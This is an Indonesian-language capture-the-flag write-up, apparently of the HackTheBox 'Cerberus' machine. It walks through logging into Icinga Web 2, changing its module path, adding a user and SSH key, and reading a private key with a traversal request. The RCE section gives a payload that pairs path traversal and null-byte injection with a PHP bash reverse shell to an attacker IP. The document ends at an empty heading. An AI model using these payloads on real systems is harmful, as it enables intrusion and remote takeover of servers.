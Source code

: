 ## Login with Credential
Ketika kita menggunakan informasi kredensial ini untuk login pada halaman page login yang tersedia pada port 8080, kita dapat mengakses aplikasi web Icinga dan melakukan berbagai aktivitas, seperti memantau kinerja jaringan, mengelola konfigurasi, atau melihat laporan.
![image](https://media.discordapp.net/attachments/740245586095112242/1092689532715008050/image.png)

## Konfigurasi module path
Menunjukkan bahwa kita sedang mencari cara untuk melakukan manipulasi atau mengubah jalur modul pada suatu sistem.

Mengganti module path menjadi ``/dev/`` dapat memiliki dampak yang signifikan pada sistem. Hal ini dapat memungkinkan pengguna untuk melakukan akses yang tidak sah atau memperoleh kontrol yang tidak diinginkan pada perangkat keras atau sistem operasi.
![image](https://media.discordapp.net/attachments/740245586095112242/1092689763238154250/image.png)

## Add User
Selanjutnya kita mencoba menambah User
![image](https://media.discordapp.net/attachments/740245586095112242/1092689960416579675/image.png)

## Add SSH Key
![image](https://media.discordapp.net/attachments/740245586095112242/1092690101718495323/image.png)

Dari hasil pembacaan file tersebut, kita menemukan bahwa file tersebut adalah sebuah kunci privat RSA. Kunci RSA adalah salah satu bentuk kunci kriptografi yang umum digunakan untuk mengamankan komunikasi melalui jaringan. Kunci ini digunakan untuk mengenkripsi dan mendekripsi data yang dikirim melalui jaringan, serta untuk memverifikasi tanda tangan digital.
```sql
curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/ssh/yp13
```
![image](https://media.discordapp.net/attachments/740245586095112242/1092690363745062993/image.png)

## Remote Code Execution (RCE)
Backconnect dengan mengubah payload seperti dibawah
```sql
Resource Name: ypshell.php
User: ../../../../../dev/shm/ypshell.php
Private Key: file:///etc/icingaweb2/ssh/yp13%00 <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/1337 0>&1'");
```
![image](https://media.discordapp.net/attachments/740245586095112242/1092690668817747998/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1092690821272317982/image.png)

## Or Shell
